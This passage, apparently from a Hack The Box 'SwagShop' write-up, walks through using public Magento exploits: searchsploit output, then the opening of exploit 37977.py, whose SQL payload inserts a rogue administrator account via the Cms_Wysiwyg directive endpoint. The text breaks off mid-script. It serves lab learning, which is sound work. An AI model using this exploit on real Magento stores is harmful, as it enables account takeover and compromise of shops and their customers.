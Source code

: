    ```console
     --------------------------------------------------------------------------------------------------------- ----------------------------------------
   ```
   > Since this box is rated with a __`9/10`__ for CVE by the box creator, this should be a step in the right direction

   > __`exploits/php/webapps/37811.py`__ and __`exploits/xml/webapps/37977.py`__ might be of interest due to their high severity.

   >> __`exploits/xml/webapps/37977.py`__ creates an admin account with credentials, __`forme : forme`__, if the Magento service running is vulnerable.

   >> __`exploits/php/webapps/37811.py`__ is an authenticated remote code execution exploit.

   > The two exploits mentioned above seem to go hand in hand with each other.
	
2. Create an admin account using __`37977.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/xml/webapps/37977.py
          Exploit: Magento eCommerce - Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37977
             Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
        File Type: ASCII text, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37977.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      import requests
      import base64
      import sys
      
      target = "http://target.com/"
      
      if not target.startswith("http"):
          target = "http://" + target
      
      if target.endswith("/"):
          target = target[:-1]
      
      target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
      
      q="""
      SET @SALT = 'rp';
      SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
      SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
      INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
      INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
      """
      